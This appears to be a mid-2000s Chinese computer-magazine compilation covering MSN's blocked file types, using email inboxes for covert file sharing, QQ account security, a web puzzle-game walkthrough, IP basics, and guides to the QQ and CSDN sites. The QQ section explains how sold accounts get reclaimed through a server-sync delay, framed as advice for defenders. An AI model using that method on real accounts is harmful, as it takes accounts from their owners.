截至发稿时，最新版本的MSN版本号为7.0.0813。如果你在使用7.0.0777这个版本，可以到http://download.zol.com.cn/down.php?softid=42518&subcatid=48&site=3下载升级补丁，将MSN升级为最新版本。该补丁没有对777版加入新特性，但修复了几个重要的Bugs，改善性能和稳定性。比如修复发送“MP3”和“JPG”文件时的错误。

MSN 不能传的文件类型
.ADE .ADP .APP .ASP .BAS .BAT .CER .CHM .CMD .COM .CPL .CRT .CSH .EXE .FXP .HLP .HTA .INF
.INS .ISP .ITS .JS .JSE .KSH .LNK .MAD .MAF .MAG .MAM .MAQ .MAR .MAS .MAT .MAU .MAV .MAW
.MDA .MDB .MDE .MDT .MDW .MDZ .MSC .MSI .MSP .MST .OPS .PCD .PIF .PRF .PRG .PST .REG .SCF .SCR .SCT .SHB .SHS .TMP .URL .VB .VBE .VBS .VSD .VSMACROS .VSS .VST .VSW .WS .WSC .WSF .WSH



(LX)

## 把你的GB邮箱变成超级下载基地！

如今，上GB的大容量邮箱到处都是，你是如何利用这些海量邮箱的呢？你可能听说过将邮箱当作网络硬盘用的软件，但这毕竟只能自己玩玩，如果你手上有个电影想要提供给多个朋友下载，这种软件是办不到的。一款名为D.S.Lite的软件能够彻底挖掘大容量邮箱的优势，通过它你可以将自己的文件“上传”到邮箱中，然后直接将经过加密的链接发送给任何网友，网友可以像在普通站点下载文件一样下载你提供的东西！

### 为什么非D.S.Lite莫属？

D.S.Lite最初是为了网友之间分享电子漫画书和图片而诞生的，不过随着大容量邮箱风潮的盛行，D.S.Lite如鱼得水，在很多论坛、站点非常火爆。笔者来列举它的几大优点：

-   ★ 可以将邮箱大容量的优势发挥得淋漓尽致——只要你的邮箱容量允许，你可以通过D.S.Lite上传任意大小的文件，就跟你使用FTP软件上传文件到自己的网站中一样简单。
★ 文件的下载地址具有高度的保密性——在不明所以的人眼里，你给网友提供提供的文件下载地址简直就是天书，因为它不是大家熟悉的http://www.xxx.com/xxx.rar，而是一些完全没有规律的字母组合。此外，我们还可以设置下载者在下载时需要提供密码。

★ D.S.Lite的使用非常简单——你用过FlashGet吧？那么你就很快能学会如何使用D.S.Lite。总之，D.S.Lite非常适合那些小规模（数十个人之间）的文件共享交流，并且交流带有很强的隐蔽性，不易被察觉。

### D.S.Lite实战操练

D.S.Lite小档案
软件版本：2.0.7.45
软件大小：1117KB
软件性质：免费软件
运行环境：Win9x/ME/2000/XP
下载地址：http://myweb.hinet.net/home1/palkang/DSLlite2.07.45.rar

笔者以将一部电影上传到邮箱中，供几个朋友下载为例来介绍D.S.Lite的使用。

### 1. 安装和必须做的配置

D.S.Lite是一款绿色软件，我们只需要将下载回来的压缩包解压，运行其中的DSLlite.exe即可。在享受D.S.Lite带给我们的好处之前，先耐住性子来调教它一番吧。

第一步：如果你的软件界面显示为英文，那么选择“Tools→Options”菜单，在打开窗口的“General”标签中将“Language”设置为“Lang_Chinese(GB2312).ini”（见图1）。



第二步：选择“工具→选项”菜单，切换到“上传设定”标签，在这里要设置你的邮件SMTP服务器信息。SMTP地址可以填写你的任意邮箱的SMTP服务器地址、“登录账号”和“登录口令”则是你的邮箱账户和密码。在“速度限制”可以设置上传和下载的最大速度，默认“0”为没有限制。

### 2. 利用D.S.Lite将文件上传到邮箱中

第一步：选择“上传任务→加入新邮箱”菜单，在打开的窗口中填写你的大容量邮箱的POP3地址、端口号、登录账号、密码、邮箱剩余空间容量。设置完毕后将“自动停用邮箱”栏的“已使用空间比率”和“已传送信件数量”分别设置为“99%”和“1000”。设置完毕后单击“存储”保存设置。D.S.Lite允许用户添加多个邮箱，其他邮箱的添加与此一样（见图2）。



小提示
对于Gmail等需要SSL支持的邮箱来说，在添加时主要一定要勾选“这个服务器需要安全连线-SSL”一项，并且POP3的端口号对Gmail来说为995。操作之前需要确保你的Gmail账户已经开通了POP3功能，并且已经设置启用该功能。

第二步：这时候我们在D.S.Lite中切换到“邮箱管理”就可以看到刚刚添加的邮箱了，选中它以后，选择“上传任务→启用邮箱”菜单就可以让邮箱处于待命状态了。

第三步：切换到“上传作业”窗口中，选择“上传任务→上传文件（或者上传文件夹）”，将要上传的文件或者文件夹添加进来。添加完毕后选择“上传任务→开始”菜单开始上传文件（见图3）。

在上传过程中，我们选择“工具→D.S.Lite SMTP 服务器”，在这里可以看到文件上传的进度，建议设置每上传多少10000KB的文件容量就暂停上传2~3分钟，因为很多邮箱为了防止垃圾邮件，将收信和发信的频率都有一定的限制，不能太频繁，否则会拒绝发信或收信。

小提示
考虑到邮箱单个附件容量有限制的问题，大家在上传很大的文件时最好使用WinRAR将大的文件分割成小的文件包再上传。

多个压缩包。这样也可以提高上传和下载的效率。



在打开的窗口中单击“编码”按钮即可。该编码就是所谓的“文件下载地址”。我们还可以为该文件的下载设置一个密码：单击窗口右上角的“插入前导字元”按钮，在打开的窗口的文本输入框里输入形如“<cfan.com.cn>”，这样要下载该文件，必须提供准确的密码cfan.com.cn，否则即使你知道它的下载地址也不能下载。

### 4.用D.S.Lite下载文件

把电影文件分包上传完毕并生成下载地址之后，你就可以将下载地址和密码告诉你的朋友了。那么，对方如何下载呢？还是得靠D.S.Lite，操作非常简单，跟FlashGet没什么两样。

选择“下载任务→加入新下载”菜单，将获得的下载地址（也就是那串无规律的D.S.代码）复制粘贴到“D.S.代码”栏中，设置保存目录，勾选“选择邮件下载”。如果文件保存在Gmail邮箱中，则勾选“支持SSL/Proxy的POP元件”，如果文件下载设置口令则还需要输入口令，最后“确定”即可（见图4）。



（小小）

## QQ“网事隐私档案”大揭秘

生活在今天这个E时代，你可以没有汽车，因为很多人都很和你环保；你可以没有手机，因为家里还有固话；你可以没有正版软件，因为很多人都和你一样，你可以没有电脑，但你不能没有QQ号码，因为有了它，你就失去了一个重要身份，就没有了不知多少个“狐朋狗友”、难兄难弟，当然，也许还会失去遇到那个“她（他）”的机会。你几乎天天在用的QQ号码，除了把它长记于心之外，有没有对它了解一些？有没有保护它呢？

### QQ号码基本分类

在网上我们可以申请的QQ号码，一般分为：会员号、QQ行号、有保护普通号和无保护普通号。

-   1. 会员号：就是腾讯靓号地带的号，每个月要向腾讯支付10元的使用费（可以通过QQ币、QQ卡、手机支付等方式支付）
2. QQ行号：QQ行的号码，每个月要向腾讯支付2元的使用费（可以通过QQ币、QQ卡、手机支付等方式支付）
3. 有保护普通号：普通的号码，无需向腾讯支付费用，但在腾讯申请了保护。当忘记了密码，可以通过腾讯的取回号码服务修改新的密码。
4. 无保护普通号：就是普通的号码，无需向腾讯支付任何费用，也没有申请保护。所以，当忘记了密码，就很难取回你的密码了。

### 什么是密码保护？

密码保护是为了防止密码被盗或者忘记的情况的一种安全措施。申请密码保护之后，通过“重设密码”功能，正确回答自己原来预设的问题，就可以由系统直接将新密码发送至安全信箱里。建议使用hotmail.com、yahoo.com、yahoo.com.cn和etang.com的信箱。

### 查看自己的会员状态

-   第一步：登录http://my.qq.com/，输入QQ号码和密码，然后输入附加码，然后按下“登录”按钮。
第二步：登录之后，在进入的页面中点击“查询号码状态和服务，请您到这里查询”后面的链接。
第三步：在新的页面中，就可以看到当前状态了（见图）。

### 怎么查看QQ号码是否受保护？

登录http://service.tencent.com/psw/mo.shtml?psw_cs.htm，输入号码和验证码，假如是会员号或QQ行号，会显示“会员朋友，您好。为了让您得到更加快捷、周到、安全的服务，请登录MyQQ使用此项功能，谢谢。”假如是有保护的号码，会继续输入保密的内容；假如是没有保护的号码，会显示“您暂时还没有申请密码保护这项服务，为了您的QQ更加安全，请立刻申请密码保护！”

### 怎么取回丢失的QQ号码

1.会员号码，可以在http://myqq.tencent.com的“忘记密码”中，通过正确的保护资料，取回你的密码。
2.普通有保护的号码，可以在http://service.tencent.com/psw/mo.shtml?psw_cs.htm通过正确的保护资料，取回你的密码。
假如你忘记了保护的资料。可以通过腾讯的申诉系统取回密码。申诉地址：http://service.tencent.com/service/request.shtml（一般情况下，会员号的申诉是很快处理的。而没有保护资料的一般很少处理）。如果不受理的，可以直接发Email到腾讯的邮箱，或直接打腾讯的热线电话（0755 - 83765566）。当然，一定要列举清楚一切能证明这个QQ是你的相关资料。
资料网址http://service.qq.com/a/20040227/000006.htm。

### 密码保护的机密文档

虽然已经申请密码保护，但还有三种不同类型——“送保”、“死保”和二次保护。三种都说明这个QQ已经申请密码保护，但有区别。
★送保：知道密码保护的全部内容，可以去修改密码保护的QQ。在交易的时候，这些内容卖方都送给你了，所以叫做“送保”。
★死保：只知道密码，不知道密码保护的内容，这种QQ最不安全，只要密码忘了或被别人修改了，QQ就没有了。
★二次保护：腾讯曾经有一段时间有Bug，可以在不知道密码保护的情况下去修改别人的密码保护（这个Bug现在已经没有了），这样原来的密码保护就不存在了，这就是所谓的二次保护。
1.恢复状态的终极方法
在密码保护资料中，如果“证件号码”用的是正确的身份证，可以证实身份的证件号码，那么它一经申请，就不能做任何更改的。QQ的主人可以通过证实自己身份的方法（比如寄身份证复印件给腾讯），取回保护资料。使用这种方法，修改密码保护资料也是没有用处的。
2.保护也被抢走？
很多论坛都有送QQ，送的时候说明是无保护的，一些朋友改了密码后查证也是无保护的。但过了一段时间，发现QQ密码不对了，而且也被申请了密码保护。通常这就是被“抢保”的结果。
腾讯为QQ提供服务是用很多的服务器，他们之间不可能每时每刻都会同步更新资料，因为这样会极其耗费资源。当你在QQ上改了资料，包括个人资料或密码等，这只是在其中的一个服务器修改了资料，其他的服务器短时间内是没有同步的，还是原来的资料。这就提供了给别人修改QQ资料的时间，别人可以马上用原来的密码去申请密码保护（虽然你在QQ上已经改了密码），然后通过取回密码来修改你的QQ的密码，这样就可以抢走你的QQ。
预防办法：
客户端改完密码后，立刻登录申请保护页（https://service.qq.com/psw/mo.shtml?psw_id.htm）用新密码填写申请保护。当出现资料的界面时，关闭这个页面，这时同步已经完成。就算立刻再重新登录这个页面。填旧密码已经不能申请保护了。
购买号码要谨慎
现在，在网上很多地方都有QQ号码出售，但有些图谋不轨的人将号码出售后用一些方法再次收回牟利，所以需要增加防范常识。
除前面提到的“送保”、“死保”之外，还有“无保护普通号”和“初始号码”两种。
★无保护普通号：就是普通的号码，无需向腾讯支付任何费用，也没有申请保护。如果忘记了密码，就很难取回你的密码了。网上简称“7无”、“8无”，就是7位无保护普通号和8位无保护普通号。
★初始号码：是指没有加任何好友，没有注册QQ秀，没有刷过Q游戏币——也就是没有用过的非会员号。这种号码比较“纯洁”，就好像从中国移动新买的手机卡一样，不会有其他人用过的。
实例：四步操作保护密码
当你从别人那里购买了QQ号码后，请注意立刻按照下面正确顺序修改密码，才能确保号码不会“得而复失”：
第一步：修改保护资料
第二步：立刻用邮箱索取密码一次
第三步：利用取密码的信修改密码一次
第四步：24小时后再索取密码，再修改一次。
小提示
其实，不仅是新买的QQ号码用这种方法可以防丢失，如果你怀疑有人盗取了你的密码（但还没有修改），这样做也能确保你的号码密码不会丢失。
（showlife[E.S.T]）

我是一名黑客，学习网络技术已经有3年，曾经帮朋友黑过别人的论坛，也帮其他公司修补过网站漏洞……

-   探宝对象： http://csksoft.nease.net/game/start.htm
探宝理由：趣味性很强，还能测试一把自己的电脑水平，掌握一些有用的网站建设技巧。建议大家先不要看下面的攻关过程，自己尝试一把。

2004年12月16日 晴

跟往常一样，我在网上找一些资料，给自己充电。无意中看到了一个黑客游戏，觉得很有意思，于是决定玩玩，也顺便测试一下自己电脑水平如何。游戏规则很简单，从第一个网页开始；根据所有线索想办法得到下一个网页链接，一直到最后找到一个网页为止。

第一关：在网页上只有“这是你的第一站，加油！想办法去第二站”这几个字，如何找到第二关链接呢？按 Ctrl + A 对这个页面进行一下全选，结果发现了一些隐藏字母，这段字母就是第二关的链接（见图）。



> 提示：如果网站中有一部分文字不希望被别人看到，可以将文字颜色和背景颜色设置成一样。

第二关：这一关网页上也只有一段文字，不能直接找到链接。对页面进行全选，也没有看到隐藏文字。不过也没有关系，查看网站源代码，结果在源代码中发现了第三关的地址。

> 提示：现在有很多歌曲和电影都隐藏了下载地址，可以通过这个方法来查看。

第三关：此关会弹出一个窗口，然后怎么关都无法关闭，看来是进入了死循环状态。怎么才能查看网站的源代码呢？用FlashGet下载该网页，然后用“记事本”打开，就可以进行查看。

> 提示：如果无法正常打开一个网页，可以先用FlashGet将该网页下载到硬盘上，然后用“记事本”打开并删除恶意代码部分，就可以在IE中正常打开了。

第四关：第四关设置非常简单，网页上依然只有一段话，而且打开这个网站的源代码也没有任何的提示。难道我就困在第四关了？先来分析一下这个网页的名字，是stage4.htm。如果第四关是stage4.htm的话，那么按照这个顺序来推理，第五关会不会是stage5.htm呢？结果被我猜中了。

> 提示：建立网站时，尽量不要用相关联的网页名称，很容易被别人破解的。

第五关：到了第五关，出现了一组数字和第四关的网页名字，而且在下面有“// CSKSOFT Tip:调色板与色彩指针”这样一段话。先从下面那段话开始分析，调色板与色彩指针有什么关联呢？分析的结果是调色板和色彩指针是相对应的关系，这样我就按照上面的数字顺序将下面的单词重新进行排列，得到了0agste6.htm，这就是第六关的网址。

> 提示：可以用位置顺序转换的方法来生成密码，这样只有密锁才能破解密码。

一口气就过了5关，今天就早点睡觉，明天继续来玩。

2004年12月17日 多云

第六关：有一段英文提示“I love FLASH!!! the only one...I love Cindy and her kiss.”。这段英文的大概意思是作者非常喜欢Flash，到作者的主页上看看，或许能有什么发现。到了作者的主页之后，进入他的Flash站点，找到了一个作者的Flash作品，点击之后便进入了下一关的链接。

> 提示：其实在大多数情况下，很多人都习惯将身边的事物当作密码，多留意一下，很容易就可以得到密码。

第七关：在第七关里有一段字符，除此之外其他的什么都没有，看来下一关的地址就放在这段字符中。我用UltraEdit对这段字符进行转换，第八关的网址就出来了。

> 提示：为了保证密码的安全性，可以用UltraEdit等软件对密码进行转换。

第八关：这关有点难度了，有三个提示和一张图片，另外我在作者主页上找到了一款名为Picmixer的图片分离软件，先用这款软件将网页上的图片进行分离，结果得到一个毫无用途的图片。看来这个方法思路不对，换一个角度来考虑一下。看到了“一般软件开发者都会在自己程序中加入彩蛋，大部分因过于明显而被使用者忽视”这段提示，是不是游戏的作者将通关的秘密放到Picmixer这个软件中了？用eXeScope打开Picmixer，将其中的图片提取出来，然后再用Picmixer将提取出来的图片进行解密分离，结果导出文件COPYRIGHT_~.txt。

用“记事本”打开COPYRIGHT_~.txt，该文件有一些英文语句和一些网址。哪个才是第九关的网址呢？后来根据“由于服务器是UNIX，所以对大小写敏感，故大多数情况都用小写”这句提示，估计第九关的地址跟大小写有关系，于是将“this software is designed by GREAT_Csk.Http://csksoft.nease.net/main.HTM”这句的大写字母都提出来，得到了GREATCH.HTM，将其换成小写，就是第九关的地址了。

> 提示：可以利用一些工具，将一些重要的东西放到软件中。

> 备注：第二天笔者就通过了最后一关，具体通过方法及各关通关密码请参考 http://www.newhua.com/cfan/0501web.htm。

(二手三好街)

## IP知识补习班

IP是什么？TCP/IP协议中的IP又是什么？我的IP地址是多少？为什么不能随便设置IP地址？我没有设置IP为什么也能上网？什么是内网IP、外网IP？公网私网又有什么分别？这一大堆的问题想必一些“老鸟”也不能完全解释清楚。今天就来上一堂IP知识补习课，把IP概念搞得通通透透。

### 基础篇

-   1.什么是IP？
大家都知道在邮寄信件的时候寄信者和收信者一般都拥有一个通信地址，只要按照这个通信地址就可以把信件安全地送到收信人的手中。计算机之间通信也是如此，IP地址通俗地说就是每个计算机的通信地址。

两个计算机间的通信可以想像成下文中的对话：
计算机A：“你好，请把这个包裹（数据包）发到计算机B，通信地址（IP）是这个。”
Internet邮局：“好的，我会派邮递员把你的包裹送到这个通信地址（IP）的。”

经过Internet上邮递员（路由器）的传递，将这个包裹成功传到了计算机B的通信地址（IP）上。

从上面的对话我们可以得出结论，那就是如果你的计算机连到了网络上，要与其他机器进行数据传输的话，就一定要有网络世界中的通信地址（IP地址），否则跟没有连上网没有任何区别。

> 小提示
IP地址是如何构成的呢？IP地址是由4个数组成的，每个数之间用“.”分隔开。例如192.168.0.1、61.153.2.54这种形式。从这些数字我们可以看出IP地址是属于公网还是私网，内网还是外网等信息，稍候我们将详细介绍。

-   2.如何查询本机的IP地址？
第一步：对于不同的操作系统，操作步骤略有不同。
Windows 9x：点击“开始”菜单，选择“运行”，输入“Command”后回车（不含引号）。
Windows 2000/XP/2003：点击“开始”菜单，选择“运行”，输入“CMD”后回车（不含引号）。
第二步：运行Winipcfg或IPConfig，就可以在IP Address处看到自己的IP地址了（见图1）。



### 解惑篇

-   1.内网外网的区别
内外是相对于防火墙而言的，在防火墙之外的叫做外网，防火墙内部的网络自然称为内网。大家提到内网外网最多的是在使用BT软件的时候，为什么内网用户的下载速度慢呢？正是因为内网用户处在防火墙以内，大部分外来的BT连接都被防火墙屏蔽了。

-   2.公网私网的区别
一般情况下，我们把Internet称为公网，在某种程度上公网就等同于外网，相应的内网与私网所代表的意思一样。如何区分公网和私网呢？大家只要记住一个规则就可以了。当我们查询自己IP时，发现地址为如下三个区域的话，则说明我们是处在私网中（*指0～255之间的数字）。
区域一：10.*.*.*
区域二：172.16.*.*～172.31.*.*
区域三：192.168.*.*

如果本机IP是其他IP地址就表示我们处于公网。图1显示的本机IP为10.91.30.45，则说明该计算机处于私网中。而我们使用猫进行拨号获得的是公网IP，在北京使用北京网通ADSL的用户也是处于公网中，而铁通的用户则没有公网IP，只能得到私网IP。

划分公网私网都有哪些好处呢？我们通过一个找人的例子来说明内网或私网的好处。

外校学生A（计算机A）与学生B（计算机B）发生了矛盾，一日到B所在学校找B滋事。由于B学校采取了防护手段（配置了私网地址并在大门安装了防火墙），事态发展成如下的形式：

> 学生A到了大门口，对大门警卫说：“我找学生B，让我进去。”
警卫说：“有学生证吗？”
学生A：“没有。”
警卫：“对不起，你不是这个学校的学生，不能随便进入校园。请尽快离开，否则我要报警了。”

就这样警卫保护了学生B，滋事学生A无趣地走了。

从这个例子可以看出：如果B所在学校没有安装任何防护的话，A就可以直接进到B的教室找到B，B的安全就没有了保障。这就是内网或私网的好处，可以有效地保护内部计算机安全，阻止大部分黑客和病毒的攻击。

## 3. 动态IP和静态IP有什么区别？

初学者使用ADSL Modem或56K猫上网，不知道设置什么IP或忘了自己的IP，怎么办？

上面已经提到过，如果计算机没有IP就不能上网，那么为什么使用ADSL或猫拨号时没有设置自己的IP地址也可以正常浏览网页呢？这是因为电信使用了动态IP分配技术。下面就为大家介绍动态IP和静态IP的区别。

静态IP：由我们手工设置IP地址，即在Windows 2000/XP中通过“控制面板→网络和拨号连接→右键点击当前连接并选择‘属性’→双击Internet协议(TCP/IP)”打开设置对话框，在其中设置自己的IP地址、子网掩码、默认网关和DNS服务器地址(见图2)。



动态IP：动态IP的所有网络参数均由DHCP服务器自动分配。该DHCP可以是网管配置好的服务器，例如公司中心机房的服务器，也可以是ISP自己设置的DHCP服务器，拨号上网就是从ISP的DHCP服务器获得IP的。DHCP在获得客户机的IP申请时，自动从“IP池”中抽选一个IP并分配给客户机使用。另外，每个这样动态获得的IP都有一个使用期限，也叫“租期”。在局域网中设置动态IP默认租期是8天，当8天内没有续租IP的话这个IP地址就会分配给其他计算机。而使用ADSL和56K猫拨号的用户采取的也是动态IP，租期设置为建立连接到中断连接。这也就是为什么每次重新拨号都有可能会获得一个新IP的原因，因为原IP地址在中断连接后会马上分配给其他拨号用户。

辨别动态IP与静态IP：有两种方法来查看，第一种是通过上文静态IP设置窗口进行查看，如果在设置对话框中勾选了“自动获得IP地址”的话就是动态IP。另一个方法是在命令行模式下输入“ipconfig /all”(不含引号)，如果DHCP设置为Enabled且DHCP Server选项后存在IP地址则说明本机采用的是动态IP(见图3)，反之则为静态IP。



## 4. 其他常见问题

### (1) 中国和美国IP有重复的吗？

全球的公网IP都是惟一的，不能有重复的。这里所说的惟一性只对公网IP而言，对于私网IP可由学校或企业自行分配，因为私网中提到的那三个区域的IP是不能在Internet上使用的，只在网络内部有效。举一个简单的例子：公网IP就好比我们的身份证，每人都有一个身份证并且该号码是惟一的不会重复的，到哪都可以凭这个号码找到我们。而私网IP就好比我们的学生证或工作证，也许我们的学号是98030026，在A学校有这个学号，到了B学校也很可能有这个学号，不过代表的是不同的人，也就是说这个号码只在本校内部有效且是惟一的，出了学校则没有任何意义。

### (2) 同一网络中可以存在相同IP的计算机吗？

在同一个网络中不能有IP地址相同的计算机，否则系统会提示IP冲突，并且其中一台计算机因为IP地址被占用而不能正常上网。

### (3) IPv6是什么？IPv4是什么？两者有什么区别，现在使用的是哪种版本？

我们现在使用的IP版本是V4版本，那为什么还有一个IPv6版本呢？这个主要是为了增加IP地址的数量。IPv4有2的32次方个地址，不过由于Internet建设初期没有合理的规划，造成大量地址浪费，现在已经到了IP地址匮乏的程度。而IPv6则大大增加了地址数量，达到2的128次方，并且完全兼容V4版本的地址。在可预见的将来，我们都将使用IPv6地址作为自己的计算机IP。

## 提高篇

### 1. 协议是什么？TCP/IP是什么？

经常有人提到“TCP/IP协议”，那什么是协议呢？网络中传输数据的过程类似于以下方式：

我们准备把这个货物(数据包)从A点运往B点。

第一步：对这个货物进行包装，防止在路上散架或被盗(丢失或被监听)，在包装过程中为了便于B点收到货物后可以方便地解开包装，全世界对这个包装方法进行了统一规定(协议由此诞生，我们常用的TCP/IP就是这样的协议)，原先要在A处一共加上7层包装纸，可是包装人员偷了个小懒，只包了4层(OSI 7层模型，TCP/IP协议实现了其中的4层结构)。

第二步：包装完毕后，就要开始运输这个货物了。这时候存在两个概念，一个是桥接，一个是路由。桥接就相当于一条大马路，货物通过马路直接运往B。而路由则相当于交通警察，他将告诉货物哪条才是最快到达B点的路线，所以在关键的十字路口均要安放必要的路由器对货物路线进行指挥。

第三步：当货物到达B后，将按照上面约定的捆绑方式(TCP/IP协议)来解开包装。

### 2. 子网掩码是什么？它和IP地址有什么联系？

子网掩码其实是IP地址的必要补充部分，因为在局域网与互联网寻址中不光看IP地址信息，还要对子网掩码进行比较。子网掩码所起的作用可以用下面这个例子来说明。

A学校有两个叫张三的学生，有人要找张三时门卫不知道要找的究竟是哪个。这时候就需要继续询问是哪个班的张三，是一班的还是二班的，经过进一步说明后才能确切地定位所要找的人。子网掩码的作用就是标识班级，一台计算机是“属于一班还是二班”就由子网掩码来决定。当计算机在局域网中进行通信时首先查看子网掩码，如果两台计算机子网掩码相同的话则表示它们处于一个网段内(即一个班级中)，这样它们才能正常通信，子网掩码不同(不在一个班级中)的两台计算机是不能正常通信的，除非添加了路由器并做了相应配置。

知道了子网掩码的作用后我们再来看看它的组成，子网掩码(以下简称MASK)和IP一样是由4个数组成的，例如255.255.255.0、255.0.0.0这种形式，我们通过MASK再结合IP地址就可以计算出该计算机属于哪个网络(班级)，并且可以惟一标识出该计算机(学号)。

### 3. 网址(即域名)和IP有什么关系？

大家在上网时输入的网址(如www.cfan.com.cn)和IP有什么关系呢？IP地址是用来区分网络中计算机的惟一参数，不过由于其数字的形式比较难记忆，而有些网站有好几个IP或者干脆是动态的，依靠记忆IP地址根本无法浏览。域名就是为了解决这个问题而诞生的，它是Internet网络上的一台服务器或一个网络系统的名字，在全世界没有重复的域名。域名的形式是以若干个英文字母或数字组成，由“.”分隔成几部分，如Sohu.com就是一个域名。网络中设立了专用的DNS服务器，它所起的作用就是把域名(例如www.cfan.com.cn)转换成相应的IP地址，这样只需要记忆网站的域名就能够对其进行访问，即使IP地址发生了改变也可以通过域名正常访问，将域名转换为IP的过程如下：

IP地址就相当于一个班里学生的学号或名字，域名就相当于职务，例如“学习委员”，DNS服务器相当于门卫。

1. 在没有域名的时候

外校学生A要找该班的学习委员。首先要记住这个班学习委员对应的学号或名字(非常难记)，而且当学习委员更换后还可能出现找错人的情况。

2. 当有了域名和DNS服务器后

外校学生A要找该班的学习委员(仅仅是找“学习委员”，此时并不知道该职务所对应的人是谁)，首先到门卫处询问，门卫会查阅自己的学生登记簿，再告诉A学习委员叫什么名字，学号是多少等。这种情况下即使学习委员换人了，只要门卫拥有最新的记录手册，A就可以得到正确的信息。

小提示：有时会发生网站能够通过IP访问却不能通过域名进行访问的情况，这时就有可能是DNS服务器出现了故障。

### 4. 计算机名和IP有何关系？知道一个如何查另一个？

域名是在Internet上使用的名字，通过DNS解析成正确IP地址。而计算机名主要用于局域网中，每个计算机名都对应局域网中一台计算机的IP。

实例1：查询局域网中计算机名为softer的计算机的IP地址。

第一步：进入命令行模式(方法参考上文的“查询本机IP地址”处)。

第二步：输入“ping softer”(不含引号)并回车。

第三步：在反馈信息中就可以看到该计算机所对应的IP地址为10.91.30.45了(见图4)。



实例2：查询局域网中IP地址为10.91.30.45的计算机的计算机名。

第一步：进入命令行模式。

第二步：输入“ping -a 10.91.30.45”(不含引号)并回车。

第三步：在反馈信息中就可以看到该IP地址所对应的计算机名为softer了(见图5)。



> > (北京 阮征)

## 小企鹅的大本营——QQ.com

QQ官方网站 http://www.qq.com/ 寻宝理由：时至今日，QQ已经不能单单以“一款即时通讯软件”来定义了，而是更多地表现为一种文化和时尚。QQ的各种附加工具、使用技巧、炫目的表情包、社区中的网友电台，各种QQ“宝藏”绝对值得我们一探究竟。



你想快速了解QQ网站的栏目结构吗？直接进入 http://www.qq.com/map/，这里的网站地图让你一目了然。

QQ软件下载： http://im.qq.com/qq/

我的采宝箱：常常纳闷好友的QQ为什么始终是新版本，原来他将QQ的软件下载页面放到“收藏夹”里了。

- (1) 网游版QQ：为了边玩网游边和MM聊天，你不得不把左手固定在Alt + Tab键上来回切换。QQ官方其实早就提供了网游版本的QQ，请看 http://im.qq.com/qq/mo.shtml?/download/qq_for_mmog.shtml。
- (2) 移动QQ： http://mgame.qq.com/mqq/
- (3) 场景编辑器： http://im.qq.com/p/scene_editor/

腾讯互动服务： http://is.qq.com/webprenence/ 我的采宝箱：在论坛、网站中留下你的QQ互动状态图标，这样陌生人也可以很方便地和你交流。



- (1) 互动状态代码生成页： http://is.qq.com/webprenence/code.shtml

QQ游戏频道： http://gamezone.qq.com

我的采宝箱：QQ游戏频道除了能找到各种游戏攻略外，还有这么多的Flash小游戏，还不快挑几个哄哄MM？

- (1) 密技攻略： http://gamezone.qq.com/guide/guide.shtml
- (2) 光头的诱惑： http://gamezone.qq.com/z/mini/20041015bold.htm
- (3) MM大变身： http://gamezone.qq.com/z/mini/20041222meimei.htm
- (4) 超仿真CS： http://gamezone.qq.com/z/mini/20041227cs.htm



QQ新声代： http://listen.qq.com/

我的采宝箱：在中学时每天收听FM入眼是我的习惯，就像现在每天晚上必定准时收听“QQ新声代”中的广播频率一样。从娱乐新闻，到发自心灵的吟唱，还有精彩的文学广播剧都纳入了新声代的麾下。

- (1) 彩铃Q吧： http://listen.qq.com/h_njty/cailing.shtml 参与性非常强，节目风格轻松，包括“彩铃发布会”、“彩铃彩铃我爱你”，“我和彩铃有个约会”等小版块(播出时间：周二、周五19:00-20:00)。
- (2) 来自我心： http://listen.qq.com/h_njty/heart.shtml 有这样一个心情的中转站，让你在漂泊不定的生活中寻找一份心灵的寄托(播出时间：22:00～00:00)。

QQ会员： http://club.qq.com/

我的采宝箱：QQ会员可以享受很多普通号码无法享受的服务，比如128MB网络硬盘、免费的在线短信配额，手机重设密码等。

- (1) 好友克隆复制： http://club.qq.com/incre/incre_hykl.shtml 许多QQ会员在注册后选择了自己心仪的新号码，想把自己以前的好友都添加到新号码上来，用此功能可以很方便地完成这项工作。
- (2) 靓号地带： http://qqx.qq.com/mor10.shtml QQ靓号一直是广大网友追逐的目标，5位和6位更是被尊为极品，不过这可是需要收费的噢～
- (3) 手机重设密码： http://club.qq.com/incre/incre_csmm.shtml 对付盗号最好的方法就是随时能找回密码。

对付盗号最好的方法就是随时能找回密码。

(熊猫盼盼)

## 中国程序员的家——CSDN.net

寻宝对象：《程序员》杂志官方网站 http://www.csdn.net/

寻宝理由：中国的程序员几乎没有不看《程序员》的。作为其官方网站，其代表的不仅仅是一本杂志，而是中国最大的开发者网络，也可以说是中国程序员的家。如果你渴望学习开发技术却又无从下手，快跟我来淘一淘吧。

杂志频道： http://mag.csdn.net/

我的采宝箱：要探宝当然不能不提《程序员》杂志频道，我们可能并非每期杂志都买，于是总会担心是否错过了自己正急需的内容。看看杂志频道里每期杂志的目录及评刊，找到感兴趣的内容就赶紧去找书吧。另外，技术文章中提到的源代码也能在此页面中找到。



CSDN技术社区： http://community.csdn.net/

我的采宝箱：CSDN技术社区是中国最火爆的开发技术论坛之一，其中的每个版块都汇集了该领域的顶尖高手，学习和提问的最佳场所。

- (1) C/C++： http://community.csdn.net/Expert/ForumsList.asp?roomid=56&typenum=1

现在的编程语言中，钟爱人数最多的可能就是C++了（虽然很多人觉得难得离谱），在这里你甚至能见到C++领域的权威作者侯捷的身影……

- (2) Java： http://community.csdn.net/Expert/ForumsList.asp?roomid=54&typenum=1

“完全面向对象的语言，一次编译到处运行。”凭着出色的跨平台特性，Java一路过关斩将，现在已成为网络中最流行的编程语言之一了。

- (3) Windows： http://community.csdn.net/Expert/ForumsList.asp?roomid=10&typenum=1

要学编程，当然先得对系统有个全面而深入的理解。

会员软件发布区： http://www.csdn.net/cnshare/

我的采宝箱：众多程序员的创意与技术的汇集地，学习编程最好的方法就是学习别人的编程思路自己动手实现。发布区里的例子都不太难并且有一些含有源代码，非常适合初学者学习，下面是为大家精选的几个例子。

- (1) 扫雷外挂(含Delphi源代码)： http://www.csdn.net/cnshare/soft/19/19725.shtm

名家专栏

我的采宝箱：程序界知名作者和高手的专栏，了解高手的学习历程，领略高手的学习心得。

- (1) 侯捷专栏： http://jhou.csdn.net/
- (2) 潘爱民专栏： http://www.csdn.net/develop/author/pam/
- (3) 蔡学镛专栏： http://www.csdn.net/develop/author/cxy/

CSDN Blog： http://blog.csdn.net/default.html

我的采宝箱：博客(Blog)是一种更具社会性的信息交流方式，CSDN的博客，包含了程序员对生活的感悟，对技术的追求。



- (1) 编程夜未眠： http://blog.csdn.net/shaohui/
